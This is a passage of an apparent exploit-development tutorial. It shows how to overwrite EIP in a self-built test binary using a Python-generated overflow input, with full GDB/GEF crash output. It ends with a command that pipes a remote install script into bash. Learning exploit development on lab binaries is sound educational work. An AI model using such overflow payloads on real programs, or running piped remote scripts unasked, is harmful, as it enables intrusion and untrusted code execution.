 # Take Control of EIP Section
![Pasted image 20211127181005](https://user-images.githubusercontent.com/87600765/146052962-3bb254ec-a803-452b-af8b-1211167f5a87.png)
 Now we know that eip can be overwritten with 1036 + 4 bytes we can verify it with this command:
```nasm
gef➤  run $(python -c "print '\x55' * 1036 + '\x66' *4")
Starting program: /mnt/c/Users/Jojo/documents/testcode/bow32 $(python -c "print '\x55' * 1036 + '\x66' *4")

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0x55555555 ("UUUU"?)
$ecx   : 0xffffd750  →  0x4e414c00
$edx   : 0xffffd0f0  →  0xffffd300  →  0x149dc001
$esp   : 0xffffd0f0  →  0xffffd300  →  0x149dc001
$ebp   : 0x55555555 ("UUUU"?)
$esi   : 0xf7fb2000  →  0x001e9d6c
$edi   : 0xf7fb2000  →  0x001e9d6c
$eip   : 0x66666666 ("ffff"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0f0│+0x0000: 0xffffd300  →  0x149dc001    ← $esp
0xffffd0f4│+0x0004: 0xffffd1c4  →  0xffffd315  →  "/mnt/c/Users/Jojo/documents/testcode/bow32"
0xffffd0f8│+0x0008: 0xffffd1d0  →  0xffffd751  →  "LANG=en_US.UTF-8"
0xffffd0fc│+0x000c: 0x565561f2  →  <main+20> add ebx, 0x2e0e
0xffffd100│+0x0010: 0xffffd120  →  0x00000002
0xffffd104│+0x0014: 0x00000000
0xffffd108│+0x0018: 0x00000000
0xffffd10c│+0x001c: 0xf7de6fd6  →  <__libc_start_main+262> add esp, 0x10
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x66666666
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "bow32", stopped 0x66666666 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

We can see that the adress of EBP is `0x55555555`. You can also do 
```shell-session
gef➤  i r ebp
ebp            0x55555555          0x55555555
```
![Pasted image 20211127182110](https://user-images.githubusercontent.com/87600765/146053541-9aaf3e24-d21b-45b8-bdda-ee5601dad527.png)

The tool I used is call GEF. GEF is a set of commands for x86/64, ARM, MIPS, PowerPC and SPARC to assist exploit developers and reverse-engineers when using old school GDB. It provides additional features to GDB using the Python API to assist during the process of dynamic analysis and exploit development. If you want to install it do 
```nasm
bash -c "$(curl -fsSL http://gef.blah.cat/sh)"
```
